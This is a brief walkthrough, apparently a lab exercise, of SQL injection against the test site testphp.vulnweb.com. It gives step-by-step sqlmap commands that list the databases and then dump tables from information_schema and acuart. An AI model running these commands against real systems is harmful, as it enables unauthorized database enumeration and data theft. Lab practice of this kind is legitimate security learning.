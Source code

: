 Step 1:
Get their database name through surviellience by using the command
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" --dbs
I used this URL for test.php.vulnweb.com website and found a vulnerablity 
information_schema and acuart are the database names
Step 2:
Then I accessed the information schema database to get table names inside it. using this command
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D information_schema --tables
Step 3:
I dump all the content of on the of the authorization tables to complete my attack using the command
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D information_schema -T ADMINISTRABLE_ROLE_AUTHORIZATIONS -dump
However, i found that this table was empty so I went to acuart database and then dumped the artists table
using the following commands
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart --tables
sqlmap -u "http://testphp.vulnweb.com/listproducts.php?cat=1" -D acuart -T artists -dump

